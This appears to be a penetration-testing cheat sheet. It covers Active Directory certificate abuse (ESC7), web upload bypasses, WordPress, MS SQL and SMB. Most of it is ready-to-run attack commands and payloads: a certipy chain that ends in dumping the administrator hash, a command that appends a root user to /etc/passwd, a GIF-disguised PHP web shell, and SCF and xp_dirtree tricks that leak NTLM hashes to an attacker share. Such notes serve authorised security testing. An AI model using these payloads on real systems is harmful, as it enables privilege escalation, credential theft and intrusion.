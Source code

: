 # Active Directory

## Certificate Services

### ESC7 Scenario

Add user as an officer to manage and issue certificates
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -add-officer username -debug`

Enable the SubCA template on the CA
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -enable-template subca`

List templates to confirm SubCA addition
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -list-templates`

Request cert, get request ID and private key
`Type 'y' to save private key when prompted!!!`
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -template SubCA -upn administrator@domain`

Use CA officer perms to manually issue failed cert
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -issue-request requestid`

Retrieve the issued cert
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -retrieve requestid`

Ensure clock synced with DC
`sudo ntpdate dcipaddress`

Get TGT and dump admin hash!
`certipy-ad auth -pfx administrator.pfx`

# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## General Notes

Brute Force Relevant File Extensions
```
Get a list of all file extensions used by or associated with the web server and it's language or tech stack.

For example, IIS/ASP will contain things like .config, .aspx, etc.
Official Microsoft Reference:
https://msdn.microsoft.com/en-us/library/2wawkw1c.aspx

Use Burp Suite Intruder to brute force uploading a file with all the different extensions.
```

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# MS SQL Server

Capture hash using xp_dirtree and responder
```
sudo responder -I tun0 -v

SQL> exec master.sys.xp_dirtree '\\ipaddress\anyshare', 1, 1
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```